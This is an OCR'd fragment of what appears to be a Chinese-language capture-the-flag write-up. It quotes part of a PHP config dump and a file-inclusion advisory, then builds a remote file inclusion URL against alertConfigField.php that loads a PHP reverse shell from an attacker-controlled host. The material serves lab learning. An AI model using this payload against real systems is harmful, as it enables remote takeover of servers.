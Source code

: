 ```bash
                public $list_limit = 25;                                                                 
                public $token = "OBqIPqlFWf3X";                                                          
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.
odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";                     
                public $upload_default_path = "media/uploadsFiles";                                      
                public $maximum_file_size = "5242880";                                                   
                public $secure_login = 0;                                                                
                public $secure_login_value = "";                                                         
                public $secure_login_redirect = "";                                                      
        }                                                                                                
?>                                                                                                       
-----------------------------------------------------------------------------                            
                                                                                                         
Able to read sensitive information via File Inclusion (PHP Stream)                                       
                                                                                                         
#########################################################################################################
#######                                                                                                  
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Re
tool2                                                                                                    
#########################################################################################################
#######


```

构造payload

```bash
http://10.10.215.58/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.2.11.235:8888/php-reverse-shell.php

```

远程包含反弹shell
